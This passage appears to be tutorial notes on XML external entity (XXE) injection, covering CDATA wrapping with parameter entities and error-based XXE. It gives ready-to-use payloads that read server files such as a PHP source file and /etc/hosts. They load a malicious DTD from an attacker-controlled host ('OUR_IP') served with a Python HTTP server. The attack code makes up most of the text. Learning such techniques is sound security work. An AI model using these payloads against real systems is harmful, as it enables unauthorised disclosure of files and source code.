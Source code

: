One easy way to tackle this issue would be to define a begin internal entity with <![CDATA[, an end internal entity with ]]>, and then place our external entity file in between, and it should be considered as a CDATA element, as follows:
````
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
````
After that, if we reference the &joined; entity, it should contain our escaped data. However, this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.

To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:
````
<!ENTITY joined "%begin;%file;%end;">
````

XXE.dtd (Our Server)
````
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000
````
````
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
````

**Error Based XXE**

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.
````
Our dtd file
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
````
````
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
````
